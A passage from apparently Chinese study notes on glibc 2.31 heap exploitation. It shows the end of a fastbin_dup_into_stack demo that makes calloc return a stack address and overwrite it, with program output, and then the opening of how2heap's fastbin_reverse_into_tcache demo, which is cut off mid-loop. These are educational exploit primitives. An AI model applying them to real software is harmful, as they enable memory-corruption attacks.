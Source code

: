 ```c
	free(a);
	// a->b->a
	a = calloc(1, 0x40);
	long long *a_ptr = (long long*)a;
	a_ptr[0] = &stack_var-2;
	long long *p_stack = (long long*)&stack_var;
	p_stack[-1] = 0x51;
	b = calloc(1, 0x40);
	char *a1 = calloc(1, 0x40);
	char *c1 = calloc(1, 0x40);
	printf("c1: %p\n",c1);
	long long* p_c1 = (long long*)c1;
	p_c1[0] = 0xdeadbeef;
	printf("now : %p\n",stack_var);
	return 0;
}
/*
➜  glibc-2.31 ./fastbin_dup_into_stack                                 
stack_var @ 0x7ffdf03c21a8
stack_var's value : 0xcafebabe
c1: 0x7ffdf03c21a8
now : 0xdeadbeef
*/
```



## fastbin_reverse_into_tcache

还是贴一份how2heap的。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <assert.h>

const size_t allocsize = 0x40;

int main(){
  setbuf(stdout, NULL);

  printf(
    "\n"
    "This attack is intended to have a similar effect to the unsorted_bin_attack,\n"
    "except it works with a small allocation size (allocsize <= 0x78).\n"
    "The goal is to set things up so that a call to malloc(allocsize) will write\n"
    "a large unsigned value to the stack.\n\n"
  );

  // Allocate 14 times so that we can free later.
  char* ptrs[14];
  size_t i;
  for (i = 0; i < 14; i++) {
    ptrs[i] = malloc(allocsize);
  }

  printf(
    "First we need to free(allocsize) at least 7 times to fill the tcache.\n"
    "(More than 7 times works fine too.)\n\n"
  );

  // Fill the tcache.
  for (i = 0; i < 7; i++) {
```